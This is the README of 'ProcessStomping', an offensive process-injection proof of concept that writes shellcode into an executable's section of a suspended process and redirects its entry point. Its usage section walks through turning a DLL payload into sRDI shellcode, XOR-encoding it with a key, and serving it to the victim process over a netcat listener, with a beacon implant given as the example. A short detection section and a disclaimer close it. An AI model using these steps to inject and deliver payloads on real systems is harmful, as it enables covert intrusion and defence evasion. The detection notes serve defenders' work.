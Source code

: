 # ProcessStomping
A variation of ProcessOverwriting to execute shellcode on an executable's section

[![Twitter](https://img.shields.io/twitter/follow/naksyn?label=naksyn&style=social)](https://twitter.com/intent/follow?screen_name=naksyn)

# What is it

For a more detailed explanation you can read my [blog post]()

Process Stomping, is a variation of [hasherezade’s Process Overwriting](https://github.com/hasherezade/process_overwriting) and it has the advantage of writing a shellcode payload on a targeted section instead of writing a whole PE payload over the hosting process address space.

These are the main steps of the ProcessStomping technique:

 1. **CreateProcess** - setting the Process Creation Flag to CREATE_SUSPENDED (0x00000004) in order to suspend the processes primary thread.
 2. **WriteProcessMemory** - used to write each malicious shellcode to the target process section.
 3. **SetThreadContext** - used to point the entrypoint to a new code section that it has written.
 4. **ResumeThread** - self-explanatory.

As an example application of the technique, the PoC can be used with [sRDI](https://github.com/monoxgas/sRDI) to load a beacon dll over an executable RWX section. The following picture describes the steps involved.

![immagine](https://github.com/naksyn/ProcessStomping/assets/59816245/52a8baa6-87e8-4767-9f6d-5f17c3f05761)


# Disclaimer

All information and content is provided for educational purposes only. Follow instructions at your own risk. Neither the author nor his employer are responsible for any direct or consequential damage or loss arising from any person or organization.

# Credits

This work has been made possible because of the knowledge and tools shared by Aleksandra Doniec @[hasherezade](https://twitter.com/hasherezade) and [Nick Landers](https://twitter.com/monoxgas).

# Usage

Select your target process and modify global variables accordingly in ProcessStomping.cpp.

Compile the sRDI project making sure that the offset is enough to jump over your generated sRDI shellcode blob and then update the sRDI tools:

`cd \sRDI-master`

`python .\lib\Python\EncodeBlobs.py .\`

Generate a Reflective-Loaderless dll payload of your choice and then generate sRDI shellcode blob:

`python .\lib\Python\ConvertToShellcode.py -b -f "changethedefault" .\noRLx86.dll`

The shellcode blob can then be xored with a key-word and downloaded using a simple socket 

`python xor.py noRLx86.bin noRLx86_enc.bin Bangarang`

Deliver the xored blob upon connection

`nc -vv -l -k -p 8000 -w 30 < noRLx86_enc.bin`

The sRDI blob will get erased after execution to remove unneeded artifacts.


### Demo



# Caveats

To successfully execute this technique you should select the right target process and use a dll payload that doesn't come with a User Defined Reflective loader.

# Detection opportunities

Process Stomping technique requires starting the target process in a suspended state, changing the thread's entry point, and then resuming the thread to execute the injected shellcode. These are operations that might be considered suspicious if performed in quick succession and could lead to increased scrutiny by some security solutions.